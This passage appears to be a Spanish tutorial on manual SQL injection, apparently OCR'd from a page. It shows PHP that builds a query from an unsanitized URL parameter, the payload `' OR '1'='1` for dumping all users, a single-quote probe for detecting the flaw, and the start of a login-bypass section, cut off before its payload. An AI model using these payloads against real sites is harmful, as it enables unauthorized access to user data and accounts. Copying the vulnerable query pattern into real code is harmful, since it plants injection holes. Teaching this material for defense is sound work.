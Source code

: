 ```php
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id = '$id'";
```

Si tú escribes en la URL:

```
?id=1
```

El servidor ejecuta:

```sql
SELECT * FROM users WHERE id = '1';
```

Pero si haces:

```
?id=1' OR '1'='1
```

El servidor ejecuta:

```sql
SELECT * FROM users WHERE id = '1' OR '1'='1';
```

🔐 Eso **siempre será verdadero**, así que devuelve todos los usuarios. ¡Éxito!

---

### 🧪 Fases del SQL Injection Manual

#### 1. **Descubrir la vulnerabilidad**

Prueba en el parámetro con comillas `'`:

```
?id=1'
```

Si da error como:

```
You have an error in your SQL syntax
```

👉 Está vulnerable.

---

#### 2. **Bypass de login**

Formulario de login vulnerable:

```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```

Ingresa:
